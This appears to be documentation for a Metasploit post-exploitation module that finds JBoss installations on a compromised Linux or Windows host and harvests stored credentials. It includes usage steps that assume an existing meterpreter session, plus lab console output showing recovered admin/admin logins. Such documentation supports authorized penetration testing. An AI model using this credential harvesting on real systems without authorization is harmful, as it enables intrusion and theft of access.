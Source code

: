 ## Creating A Testing Environment
  For this module to work you need a linux or windows machine.
  For linux and windows you can download jboss from here the following location: http://jbossas.jboss.org/downloads

This module has been tested against:

  1. Xubuntu 16.04 with jboss 4.23,5.0,5.1 and 6.1.
  2. Windows 10 with jboss 4.23,5.0,5.1 and 6.1.

This module was not tested against, but may work against:

  1. Other versions of linux running jboss 
  2. Other version of windows running jboss

## Verification Steps

  1. Start msfconsole
  2. Obtain a meterpreter session via whatever method
  3. Do: 'use post/multi/gather/jboss_gather'
  4. Do: 'set session #'
  5. Do: 'run'

## Scenarios

### Xubuntu 16.04 with jboss 4.23 and 5.1

#### Running with read permissions

    msf post(jboss_gather) > use post/multi/gather/jboss_gather 
    msf post(jboss_gather) > run

    [*] [2017.03.31-15:12:34] Unix OS detected, attempting to locate Jboss services
    [*] [2017.03.31-15:12:35] Found a Jboss installation version: 4
    [*] [2017.03.31-15:12:36] Attempting to extract Jboss service ports from: /home/reaper/jboss-4.2.3.GA/server/all/deploy/jboss-web.deployer/server.xml
    [*] [2017.03.31-15:12:36] Attempting to extract Jboss service ports from: /home/reaper/jboss-4.2.3.GA/server/default/deploy/jboss-web.deployer/server.xml
    [+] [2017.03.31-15:12:36] Credentials found - Username: admin Password: admin
    [+] [2017.03.31-15:12:37] Credentials found - Username: admin Password: admin
    [*] [2017.03.31-15:12:38] Found a Jboss installation version: 5
    [*] [2017.03.31-15:12:39] Attempting to extract Jboss service ports from: /home/reaper/jboss-5.1.0.GA/server/all/conf/bindingservice.beans/META-INF/bindings-jboss-beans.xml
    [*] [2017.03.31-15:12:39] Attempting to extract Jboss service ports from: /home/reaper/jboss-5.1.0.GA/server/default/conf/bindingservice.beans/META-INF/bindings-jboss-beans.xml
    [*] [2017.03.31-15:12:40] Attempting to extract Jboss service ports from: /home/reaper/jboss-5.1.0.GA/server/minimal/conf/bindingservice.beans/META-INF/bindings-jboss-beans.xml
    [*] [2017.03.31-15:12:40] Attempting to extract Jboss service ports from: /home/reaper/jboss-5.1.0.GA/server/standard/conf/bindingservice.beans/META-INF/bindings-jboss-beans.xml
    [*] [2017.03.31-15:12:40] Attempting to extract Jboss service ports from: /home/reaper/jboss-5.1.0.GA/server/web/conf/bindingservice.beans/META-INF/bindings-jboss-beans.xml
    [+] [2017.03.31-15:12:41] Credentials found - Username: admin Password: admin
    [+] [2017.03.31-15:12:41] Credentials found - Username: admin Password: admin
    [+] [2017.03.31-15:12:41] Credentials found - Username: admin Password: admin
    [+] [2017.03.31-15:12:41] Credentials found - Username: admin Password: admin
    [*] Post module execution completed

### Windows 10 with jboss 5.0 and 6.1

#### Running with low permissions

    msf post(jboss_gather) > run

    [*] [2017.03.31-15:13:43] Windows OS detected, enumerating services
    [*] [2017.03.31-15:13:43] No Jboss service has been found
    [*] Post module execution completed

#### Running with correct permissions
    msf post(jboss_gather) > use post/multi/gather/jboss_gather 
    msf post(jboss_gather) > run

    [*] [2017.03.31-15:44:37] Windows OS detected, enumerating services
    [*] [2017.03.31-15:44:39] Jboss service found
    [*] [2017.03.31-15:44:39] Jboss service found
    [*] [2017.03.31-15:44:39] Found a Jboss installation version: 5
    [*] [2017.03.31-15:44:41] Attempting to extract Jboss service ports from: C:\Users\Reaper\Desktop\jboss-5.1.0.GA\jboss-5.1.0.GA\server\all\conf\bindingservice.beans\META-INF\bindings-jboss-beans.xml
    [*] [2017.03.31-15:44:41] Attempting to extract Jboss service ports from: C:\Users\Reaper\Desktop\jboss-5.1.0.GA\jboss-5.1.0.GA\server\default\conf\bindingservice.beans\META-INF\bindings-jboss-beans.xml
    [*] [2017.03.31-15:44:42] Attempting to extract Jboss service ports from: C:\Users\Reaper\Desktop\jboss-5.1.0.GA\jboss-5.1.0.GA\server\minimal\conf\bindingservice.beans\META-INF\bindings-jboss-beans.xml
    [*] [2017.03.31-15:44:42] Attempting to extract Jboss service ports from: C:\Users\Reaper\Desktop\jboss-5.1.0.GA\jboss-5.1.0.GA\server\standard\conf\bindingservice.beans\META-INF\bindings-jboss-beans.xml
    [*] [2017.03.31-15:44:43] Attempting to extract Jboss service ports from: C:\Users\Reaper\Desktop\jboss-5.1.0.GA\jboss-5.1.0.GA\server\web\conf\bindingservice.beans\META-INF\bindings-jboss-beans.xml
    [+] [2017.03.31-15:44:43] Credentials found - Username: admin Password: admin
    [+] [2017.03.31-15:44:44] Credentials found - Username: admin Password: admin
    [+] [2017.03.31-15:44:44] Credentials found - Username: admin Password: admin
    [+] [2017.03.31-15:44:44] Credentials found - Username: admin Password: admin
    [*] [2017.03.31-15:44:45] Found a Jboss installation version: 6
    [*] [2017.03.31-15:44:46] Attempting to extract Jboss service ports from: C:\Users\Reaper\Desktop\jboss-6.1.0.Final\server\all\conf\bindingservice.beans\META-INF\bindings-jboss-beans.xml
    [*] [2017.03.31-15:44:47] Attempting to extract Jboss service ports from: C:\Users\Reaper\Desktop\jboss-6.1.0.Final\server\default\conf\bindingservice.beans\META-INF\bindings-jboss-beans.xml
    [*] [2017.03.31-15:44:48] Attempting to extract Jboss service ports from: C:\Users\Reaper\Desktop\jboss-6.1.0.Final\server\jbossweb-standalone\conf\bindingservice.beans\META-INF\bindings-jboss-beans.xml
    [*] [2017.03.31-15:44:48] Attempting to extract Jboss service ports from: C:\Users\Reaper\Desktop\jboss-6.1.0.Final\server\minimal\conf\bindingservice.beans\META-INF\bindings-jboss-beans.xml
    [*] [2017.03.31-15:44:49] Attempting to extract Jboss service ports from: C:\Users\Reaper\Desktop\jboss-6.1.0.Final\server\standard\conf\bindingservice.beans\META-INF\bindings-jboss-beans.xml
    [+] [2017.03.31-15:44:49] Credentials found - Username: admin Password: admin
    [+] [2017.03.31-15:44:49] Credentials found - Username: admin Password: admin
    [+] [2017.03.31-15:44:50] Credentials found - Username: admin Password: admin
    [+] [2017.03.31-15:44:50] Credentials found - Username: admin Password: admin
    [*] Post module execution completed